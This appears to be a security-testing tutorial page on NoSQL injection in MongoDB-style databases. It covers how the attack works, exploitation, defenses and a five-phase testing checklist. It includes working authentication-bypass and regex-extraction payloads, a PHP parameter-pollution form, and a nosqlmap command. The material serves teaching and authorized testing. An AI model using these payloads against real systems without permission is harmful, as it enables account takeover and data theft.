


# NoSQL Injection

Manipulate NoSQL query operators in MongoDB and similar databases.

## Overview Diagram

Visual summary of the **attack/data flow** and the **five-phase testing workflow** for this topic.

### Attack / Data Flow

<div class="sr-diagram" markdown="1">



</div>

### Testing Workflow

<div class="sr-diagram sr-diagram-methodology" markdown="1">



</div>

## How It Works

NoSQL injection manipulates query documents in databases like MongoDB, CouchDB, or Elasticsearch when applications pass user input directly into query operators without type-safe binding.

Classic MongoDB authentication bypass:

```json
{"username": "admin", "password": {"$ne": ""}}
```

The `$ne` (not equal) operator makes the password clause always true.

Injection also targets:

- `$gt`, `$regex` for data extraction
- `$where` JavaScript execution (deprecated but historic)
- Aggregation pipeline injection

JSON APIs and mobile backends often accept rich JSON bodies—attackers send operator objects where strings were expected because server code lacks schema validation.

## Exploitation

**Authentication bypass**

POST JSON login:

```json
{
  "username": "admin",
  "password": {"$gt": ""}
}
```

**Data extraction via regex**

```json
{"email": {"$regex": "^a"}}
```

Iterate characters when response differs for matches.

**URL-encoded form (PHP apps)**

```
username=admin&password[$ne]=
```

**Attack flow**

```
JSON/query with operator objects → database interprets operators → auth bypass / data leak
```

**Tools**

```bash
nosqlmap -u "http://target.com/login" --data '{"user":"test","pass":"test"}'
```

**Blind techniques**

- Boolean: change `$regex` anchor and compare response length
- Timing: `$where` with `sleep` where JS execution enabled (rare today)

## Defense & Mitigation

**Type-safe queries**

- MongoDB Node driver: ensure fields are strings—`if (typeof password !== 'string') reject`.
- Use explicit operator allow-lists in query builders.

**Schema validation**

- JSON Schema on API inputs rejecting objects where strings required.
- Disable `password[$ne]` style parameter pollution at framework level.

**Database config**

- Disable `$where` and server-side JS where not needed.
- Least privilege DB users without eval rights.

**Parameterized patterns**

- Use ORM/query builders that separate operators from user values structurally.

**Testing**

- Fuzz JSON fields with `{"$gt":""}` replacements in all API endpoints.

## Testing Methodology

Work through each phase in order. Every step has a checkbox — complete them all for thorough, reproducible coverage.

### Phase 1 — Preparation & Scoping

- [ ] Confirm target is in program scope and ROE allows this test type
- [ ] Set up isolated lab or proxy (Burp/ZAP) with scope filters
- [ ] Document baseline application behavior and account roles
- [ ] Identify test accounts for each privilege level
- [ ] Identify MongoDB/CouchDB queries built from JSON input

### Phase 2 — Discovery & Mapping

- [ ] Map login and search endpoints accepting JSON bodies
- [ ] Test operator injection: `{"$ne": null}`, `{"$gt": ""}`
- [ ] Review JavaScript injection in `$where` clauses
- [ ] Check API vs web login differences

### Phase 3 — Validation & Testing

- [ ] Bypass auth with `{"username": {"$ne": null}, "password": {"$ne": null}}`
- [ ] Extract data via boolean blind NoSQL techniques
- [ ] Use nosqlmap for automated tests
- [ ] Validate error messages leaking query structure

### Phase 4 — Exploitation & Impact Proof

- [ ] Login as admin or read one document as proof
- [ ] Demonstrate data exfiltration path
- [ ] Document database type and vulnerable parameter
- [ ] Avoid dumping entire collections

### Phase 5 — Documentation & Reporting

- [ ] Write step-by-step reproduction with HTTP requests/responses
- [ ] Capture screenshots or video showing impact (redact sensitive data)
- [ ] Rate severity using program CVSS or impact matrix
- [ ] Provide concrete remediation guidance for developers
- [ ] Retest after fix if program allows verification
- [ ] Use typed queries and disable `$where` / server-side JS

## Tools

| Tool | Usage |
|------|-------|
| `burp` | [Intercept, repeater & scanner](../../TOOLS_GUIDE.md#burp-suite) |
| `nosqlmap` | [NoSQL injection](../../TOOLS_GUIDE.md#nosqlmap) |

## Resources

- [PayloadsAllTheThings NoSQL](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)

## Verification Checklist

- [ ] Review scope and rules of engagement
- [ ] Document baseline behavior
- [ ] Test edge cases and parser differentials
- [ ] Capture proof-of-concept safely
- [ ] Write remediation guidance
